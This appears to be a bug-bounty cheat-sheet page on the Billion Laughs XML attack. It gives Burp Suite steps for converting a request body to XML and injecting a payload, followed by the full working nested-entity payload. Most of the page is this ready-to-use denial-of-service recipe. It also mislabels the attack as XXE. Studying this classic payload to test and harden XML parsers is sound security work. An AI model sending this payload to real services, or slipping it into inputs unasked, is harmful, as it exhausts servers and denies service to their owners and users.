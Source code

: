 # Billion Laugh Attack

-   Another common vulnerability associated with XML parsing is called A Billion Laughs Attack. It uses an entity to resolve itself cyclically thereby consuming more CPU usage and causing a denial of service attack. An Example XML payload that can cause an XXE attack is as follows:

```
Step 1 : Capture the request into Burp
Step 2 : Send it to the repeater tab and then convert the body into XML whether it is accepting or not
Step 3 : To confirm, Check for the [ Accept ] Header change it into Application/json
Step 4 : Covert JSON into XML if their is no Possibility
Step 5 : Add the payload in between and change the content lol1 to lol9 depending on the dos variation in the xml field!
```

-   Billion Laugh Payload :

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## Contributor:

-   [N3T_hunt3r](https://twitter.com/N3T_hunt3r)
